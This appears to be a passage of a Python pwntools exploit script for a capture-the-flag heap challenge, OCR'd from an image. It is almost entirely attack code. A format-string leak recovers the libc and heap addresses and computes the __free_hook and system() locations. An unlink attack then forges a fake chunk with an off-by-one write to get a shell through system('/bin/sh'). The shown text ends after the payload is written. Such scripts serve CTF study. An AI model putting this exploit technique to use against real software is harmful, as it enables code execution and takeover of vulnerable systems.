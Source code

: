 ```Python
    p.recvuntil(">> ")
    p.sendline("2")
    p.recvuntil(":\n")
    p.sendline(str(index))

def show():
    p.sendline("3")

def edit(index, content):
    p.recvuntil(">> ")
    p.sendline("4")
    p.recvuntil(":\n")
    p.sendline(str(index))
    p.recvuntil(": \n")
    p.sendline(content)

def leak():
    global heap_ptr
    global __free_hook
    global system_addr
    global main_base

    p.recvuntil('Enter your name: ')
    p.sendline("%15$p.%19$p")
    # __libc_start_main_ret = int(p.recvuntil('840')[-14:],16)      # local 
    __libc_start_main_ret = int(p.recvuntil('830')[-14:],16)
    __libc_start_main = __libc_start_main_ret - 240
    p.recvuntil("0x")
    main_base = int(p.recv()[0:12],16) - 0x116a
    # libc_base = __libc_start_main - 0x20840                       # local
    libc_base = __libc_start_main - 0x20740
    heap_ptr = main_base + 0x202060
    __free_hook = libc_base + 0x3c67a8
    # system_addr = libc_base + 0x453a0     # local
    system_addr = libc_base + 0x45390
    log.success('libc_base => ' + hex(libc_base))
    log.success('__libc_start_main_ret=> ' + hex(__libc_start_main_ret))
    log.success('__libc_start_main => ' + hex(__libc_start_main))
    log.success('main_base => ' + hex(main_base))
    log.success('heap_ptr => ' + hex(heap_ptr))
    log.success('__free_hook => ' + hex(__free_hook))
    log.success('system_addr => ' + hex(system_addr))
    # pause()

def unlink():
    show()
    # add(0, 0x88, 'a' * 0x90)        # 0x88不合适，因为构造fake chunk的时候，chunk_size为0x80
    add(0, 0x98, 'a' * 0x90)
    # debug(0)
    add(1, 0x90, 'b' * 0x90)
    add(2, 0x88, '/bin/sh\x00')         # system('/bin/sh')
    # debug(0)
    
    payload  = p64(0)                   # fake prev_size
    payload += p64(0x91)                # fake size
    payload += p64(heap_ptr - 0x18)     # fake fd
    payload += p64(heap_ptr - 0x10)     # fake bk(target)
    payload += p64(0) * 14              # padding 
    payload += p64(0x90)                # fake prev_size
    payload += b'\xa0'                  # off-by-one to change PREV_INUSE of next chunk
    edit(0, payload)
    # debug(0)

```